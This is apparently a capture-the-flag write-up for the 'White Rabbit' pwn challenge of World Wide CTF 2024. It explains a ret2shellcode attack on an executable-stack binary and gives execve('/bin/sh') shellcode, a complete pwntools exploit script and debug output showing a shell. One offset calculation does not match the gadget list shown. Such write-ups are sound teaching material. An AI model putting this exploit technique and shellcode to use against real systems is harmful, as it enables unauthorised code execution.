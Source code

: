 ```yaml
---
title: "[WRITE UP] - World Wide CTF 2024 - White Rabbit"
published: 2024-12-01
description: "Write up for White Rabbit challenge"
image: "./image.png"
tags:
  - "PWN"
category: "CTF Writeups"
draft: false
---
```


### Description

> Just a nice easy warmup for you...
>

### Analysis

### General information

```bash
  (\\_/)
  ( •_•)
  / > 0x556bdd42d180

follow the white rabbit...
```

```bash
[*] '/home/alter/CTFs/WWF_2024/pwn/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

So we can see here, the binary have no canary and the PIE is enabled. One more thing is `Stack` is executable and it leak the address each time we run the binary. So we can think about `ret2shellcode`

### Brain time

So my experience for this is just take that address and maybe we will need it, so this is my code for take that leak address:

```python
p.recvuntil(b'/ > ')
leak = int(p.recvline()[:-1], 16)
info("[+] Leak: " + hex(leak))
```

Just check what that address it leak is by using dynamic debugging. I'm breakpoint at `follow()` function. We can see our leak address in my case is `0x555555555180` (I have disabled `ASLR` for easier). When I look around there is the leak address of `main` function:

```python
gef➤  disas*main
Dump of assembler code for function main:
   0x0000555555555180 <+0>:     push   rbp
```

Or we can look at pseudocode in IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("\\n  (\\\\_/)");
  puts(asc_200D);
  printf("  / > %p\\n\\n", main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

As said before, the idea of this is `ret2shellcode` so what we need to find is:

- Offset from input to RIP
- Gadget
- Craft shellcode

For the offset, it is a little bit easy so I will skip this

The next step involves identifying the gadget. To identify the gadget in a PIE (Position Independent Executable) binary, tools like `ROPgadget` and `ropper` are used. However, because PIE is enabled, these tools cannot display the absolute addresses of gadgets. Instead, they provide offsets relative to the binary's base address, which is determined only at runtime.

To work around this, I used `ROPchain` to find the gadget's offset. Then, I calculated its relative position by comparing the gadget’s offset to the address of the main function in the binary. To do this, I first disassembled the main function in GDB before running the binary, capturing its pre-loading address. Subtracting the gadget's offset from the main’s address gave me the relative offset, which remains consistent between local and remote execution of the binary due to the fixed layout enforced by PIE.

```
➜  pwn ROPgadget --binary white_rabbit | grep "call rax"
0x000000000000100d : add byte ptr [rax], al ; test rax, rax ; je 0x1016 ; call rax
0x0000000000001014 : call rax
0x0000000000001012 : je 0x1016 ; call rax
0x0000000000001010 : test eax, eax ; je 0x1016 ; call rax
0x000000000000100f : test rax, rax ; je 0x1016 ; call rax

```

```nasm
gef➤  disas*main
Dump of assembler code for function main:
   0x0000000000001180 <+0>:     push   rbp

```

So our gadget's offset is `0x1180` - `0x10bf`= `0xc1`. But why is `call rax`? Because in the `x86-64` calling convention, the return value of a function is typically stored in the `RAX` register. This convention applies to most functions, including standard library functions like `gets`.

The last one is shellcode, just basic `/bin/sh` shellcode:

```nasm
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
```

### Exploit

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./white_rabbit', checksec=False)
def GDB(): gdb.attach(p, gdbscript='''

c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

ru(b'/ > ')
leak = int(rl()[:-1], 16)
info("Leak: " + hex(leak))

gadget = leak - 0xc1
shellcode = asm("""
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
""", arch="amd64")

pl = flat(
    shellcode.ljust(120, b'A'),
    p64(gadget)
    )

sl(pl)
interactive()

```

```bash
➜  pwn ./exploit.py
[+] Starting local process '/home/alter/CTFs/WWF_2024/pwn/white_rabbit': pid 12216
[!] ASLR is disabled!
[DEBUG] Received 0x47 bytes:
    00000000  0a 20 20 28  5c 5f 2f 29  0a 20 20 28  20 e2 80 a2  │·  (│\\_/)│·  (│ ···│
    00000010  5f e2 80 a2  29 0a 20 20  2f 20 3e 20  30 78 35 35  │_···│)·  │/ > │0x55│
    00000020  35 35 35 35  35 35 35 31  38 30 0a 0a  66 6f 6c 6c  │5555│5551│80··│foll│
    00000030  6f 77 20 74  68 65 20 77  68 69 74 65  20 72 61 62  │ow t│he w│hite│ rab│
    00000040  62 69 74 2e  2e 2e 0a                               │bit.│..·│
    00000047
[*] Leak: 0x555555555180
[DEBUG] cpp -C -nostdinc -undef -P -I/home/alter/.local/lib/python3.12/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        push 0x3b
        pop rax
        mov rdi, 0x68732f6e69622f
        push rdi
        push rsp
        pop rdi
        cdq
        push rdx
        pop rsi
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-x8nkdsmx/step2 /tmp/pwn-asm-x8nkdsmx/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-x8nkdsmx/step3 /tmp/pwn-asm-x8nkdsmx/step4
[DEBUG] Sent 0x81 bytes:
    00000000  6a 3b 58 48  bf 2f 62 69  6e 2f 73 68  00 57 54 5f  │j;XH│·/bi│n/sh│·WT_│
    00000010  99 52 5e 0f  05 41 41 41  41 41 41 41  41 41 41 41  │·R^·│·AAA│AAAA│AAAA│
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  bf 50 55 55  55 55 00 00  │AAAA│AAAA│·PUU│UU··│
    00000080  0a                                                  │·│
    00000081
[*] Switching to interactive mode

follow the white rabbit...
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\\n'
[DEBUG] Received 0x6 bytes:
    b'alter\\n'
alter
```
